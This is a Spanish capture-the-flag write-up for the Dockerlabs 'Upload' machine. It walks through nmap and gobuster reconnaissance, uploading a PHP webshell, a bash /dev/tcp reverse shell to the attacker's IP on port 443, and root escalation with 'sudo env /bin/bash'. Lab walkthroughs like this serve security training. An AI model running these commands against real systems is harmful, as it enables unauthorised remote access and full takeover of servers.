


# Writeup de la Máquina Upload de Dockerlabs

Lo primero que hago es realizar un escaneo de todos los puertos que tenga abiertos la máquina con la herramienta nmap.

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
```


Una vez realizado el escaneo recojo los puertos abiertos con la utilidad extractPorts, del fichero donde se ha guardado el escaneo de nmap. En este caso al ser solo un puerto no haria falta. Una vez recojido el puerto le lanzo un escaneo para sacar la versión y el servicio que esta corriendo en el puerto 80.

```bash
extractPorts allPorts
```
```bash
sudo nmap -p80 -sCV 172.17.0.2 -oN targeted
```


Viendo que es un apache2, ejecuto la herramienta whatweb para que me liste las tecnologías que usa la página web.

```bash
whatweb http://172.17.0.2
```


El whatweb no reporta mucha información así que decido mirar la página en el navegador y me encuentro con la página por defecto de apache2.



Vista la página por defecto decido hacer fuzzing a la web, esto lo hago con la herramienta gobuster.

```bash
gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://172.17.0.2 -x html,php,js
```


Gobuster reporta una carpeta "/uploads" y un archivo "upload.php".


Al ver que se pueden subir archivos decido subir una webshell con php para ver si ejecuta código. Para esto lo hago un parámetro "cmd" y le digo que ejecute el comando id.


Viendo que se puede ejecutar comandos decido realizar una reverse shell a mi máquina al puerto 443.

```bash
nc -lvp 443
```


Este comando en la webshell urlencodeado, ya que sino no funciona.

```bash
bash -i >& /dev/tcp/192.168.13.142/443 0>&1
```


Una vez ejecutada la reverse shell urlencodeada recibo la shell en mi máquina atacante. En esta lo primero que hago es verificar el usuario que tengo (www-data). Una vez visto el usuario miro si puedo ejecutar algún comando/utilidad como root sin autenticarme. En este caso veo que puedo ejecutar env, así que hago una búsqueda en https://gtfobins.github.io/gtfobins/env/#sudo para ver como ejecutar la escalada de privilegios.


```bash
sudo env /bin/bash
```

Una vez ejecutado el comando consigo escalar privilegios y convertirme en el usuario root!

